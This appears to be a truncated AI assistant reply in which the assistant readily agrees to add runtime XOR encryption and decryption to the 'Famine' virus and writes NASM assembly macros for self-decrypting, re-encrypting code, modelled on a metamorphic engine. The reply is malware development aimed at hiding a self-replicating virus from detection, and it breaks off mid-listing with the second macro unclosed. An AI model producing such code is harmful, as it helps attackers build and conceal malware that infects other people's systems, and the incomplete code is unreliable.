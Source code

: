 I understand! You want to add XOR encryption/decryption to the Famine virus similar to the Singlestep metamorphic approach. Here's how you can modify the Famine code to include runtime XOR encryption/decryption:

## Modified Famine with XOR Encryption

```assembly
%include "src/famine.inc"

BITS 64
default rel

section .text
    global _start

; XOR encryption keys for different code sections
xor_key_1   dq 0x1234567890ABCDEF
xor_key_2   dq 0xFEDCBA0987654321
xor_key_3   dq 0xABCDEF1234567890

; Macro for XOR decryption before execution
%macro XOR_DECRYPT 3  ; %1=target_addr, %2=size, %3=key
    pushfq
    push rax
    push rcx
    push rdi
    
    mov rdi, %1
    mov rcx, %2
    mov rax, %3
    
%%decrypt_loop:
    xor [rdi], al
    inc rdi
    ror rax, 8
    loop %%decrypt_loop
    
    pop rdi
    pop rcx
    pop rax
    popfq
%endmacro

; Macro for XOR encryption after execution
%macro XOR_ENCRYPT 3  ; %1=target_addr, %2=size, %3=key
    pushfq
    push rax
    push rcx
    push rdi
    
    mov rdi, %1
    mov rcx, %2
    mov rax, %3
    
%%encrypt_loop:
    xor [rdi], al
    inc rdi
    ror rax, 8
    loop %%encrypt_loop
    
    pop rdi
    pop rcx
    pop rax
    popfq
```